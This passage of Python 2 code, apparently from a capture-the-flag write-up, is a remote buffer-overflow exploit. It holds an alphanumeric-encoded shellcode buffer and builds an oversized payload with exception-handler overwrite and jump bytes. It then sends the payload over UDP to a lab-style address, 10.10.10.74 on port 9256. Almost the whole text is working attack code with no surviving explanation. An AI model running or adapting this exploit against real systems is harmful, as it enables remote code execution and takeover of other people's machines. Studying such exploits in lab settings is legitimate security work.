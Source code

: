 buf += b"\x79\x53\x50\x30\x6b\x6d\x30\x59\x6f\x68\x55\x52\x30"
buf += b"\x72\x30\x62\x30\x6e\x70\x31\x30\x30\x50\x4d\x70\x32"
buf += b"\x30\x43\x38\x37\x7a\x4c\x4f\x79\x4f\x67\x70\x59\x6f"
buf += b"\x37\x65\x32\x77\x4f\x7a\x4a\x65\x4f\x78\x6b\x5a\x6c"
buf += b"\x4a\x6c\x4e\x4a\x6a\x51\x58\x59\x72\x59\x70\x6a\x71"
buf += b"\x6f\x6b\x32\x69\x7a\x46\x62\x4a\x6c\x50\x31\x46\x4f"
buf += b"\x67\x43\x38\x32\x79\x54\x65\x70\x74\x63\x31\x79\x6f"
buf += b"\x56\x75\x74\x45\x67\x50\x54\x34\x6a\x6c\x6b\x4f\x50"
buf += b"\x4e\x4d\x38\x44\x35\x38\x6c\x4f\x78\x6c\x30\x34\x75"
buf += b"\x75\x52\x51\x46\x4b\x4f\x37\x65\x43\x38\x6f\x73\x70"
buf += b"\x6d\x6f\x74\x79\x70\x61\x79\x49\x53\x30\x57\x70\x57"
buf += b"\x71\x47\x70\x31\x68\x76\x61\x5a\x4c\x52\x32\x39\x6e"
buf += b"\x76\x47\x72\x39\x6d\x30\x66\x46\x67\x4f\x54\x6c\x64"
buf += b"\x6d\x6c\x4b\x51\x59\x71\x62\x6d\x4d\x74\x4b\x74\x4e"
buf += b"\x30\x46\x66\x79\x70\x4e\x64\x50\x54\x4e\x70\x71\x46"
buf += b"\x6e\x76\x62\x36\x71\x36\x6f\x66\x50\x4e\x52\x36\x51"
buf += b"\x46\x32\x33\x42\x36\x51\x58\x33\x49\x76\x6c\x4f\x4f"
buf += b"\x51\x76\x4b\x4f\x5a\x35\x43\x59\x57\x70\x30\x4e\x50"
buf += b"\x56\x6e\x66\x6b\x4f\x6e\x50\x43\x38\x7a\x68\x64\x47"
buf += b"\x6b\x6d\x53\x30\x59\x6f\x69\x45\x65\x6b\x57\x70\x4d"
buf += b"\x4d\x6c\x6a\x49\x7a\x33\x38\x73\x76\x65\x45\x45\x6d"
buf += b"\x63\x6d\x39\x6f\x57\x65\x4f\x4c\x4a\x66\x71\x6c\x39"
buf += b"\x7a\x61\x70\x4b\x4b\x69\x50\x72\x55\x79\x75\x37\x4b"
buf += b"\x61\x37\x4a\x73\x63\x42\x70\x6f\x52\x4a\x69\x70\x31"
buf += b"\x43\x39\x6f\x58\x55\x41\x41"

# Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
server_address = ('10.10.10.74', 9256)

fs = "\x55\x2A\x55\x6E\x58\x6E\x05\x14\x11\x6E\x2D\x13\x11\x6E\x50\x6E\x58\x43\x59\x39"
p  = "A0000000002#Main" + "\x00" + "Z"*114688 + "\x00" + "A"*10 + "\x00"
p += "A0000000002#Main" + "\x00" + "A"*57288 + "AAAAASI"*50 + "A"*(3750-46)
p += "\x62" + "A"*45
p += "\x61\x40" 
p += "\x2A\x46"
p += "\x43\x55\x6E\x58\x6E\x2A\x2A\x05\x14\x11\x43\x2d\x13\x11\x43\x50\x43\x5D" + "C"*9 + "\x60\x43"
p += "\x61\x43" + "\x2A\x46"
p += "\x2A" + fs + "C" * (157-len(fs)- 31-3)
p += buf + "A" * (1152 - len(buf))
p += "\x00" + "A"*10 + "\x00"

print "---->{P00F}!"
i=0
while i<len(p):
    if i > 172000:
        time.sleep(1.0)
    sent = sock.sendto(p[i:(i+8192)], server_address)
    i += sent
sock.close()
{% endhighlight %}
